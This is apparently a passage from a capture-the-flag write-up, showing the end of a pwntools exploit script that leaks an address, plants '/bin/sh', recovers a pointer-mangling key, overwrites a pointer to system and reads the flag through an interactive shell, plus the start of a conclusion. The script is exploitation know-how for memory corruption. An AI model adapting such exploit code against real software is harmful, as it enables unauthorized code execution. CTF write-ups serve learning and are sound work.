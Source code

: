 ```python
    debug_addr_val = debug_addr(addrs)

    leak_debug_address(p, addrs, debug_addr_val)
    
    
    initial_addr = write_bin_sh_into_struct()
    key = overwrite_initial_pointer_and_extract_key(initial_addr, addrs["license"])
    
    encrypt_system_and_write(initial_addr, key)
    
    p.sendlineafter(b"> ",b"exit")
    p.clean()
    p.sendline(b"cat flag.txt")
    p.interactive()

if __name__ == "__main__":
    main()
```

## Conclusion

This challenge demonstrated an interesting exploitation path for memory corruption vulnerabilities. I was originally inspired by this technique after reading the `libc` source code and .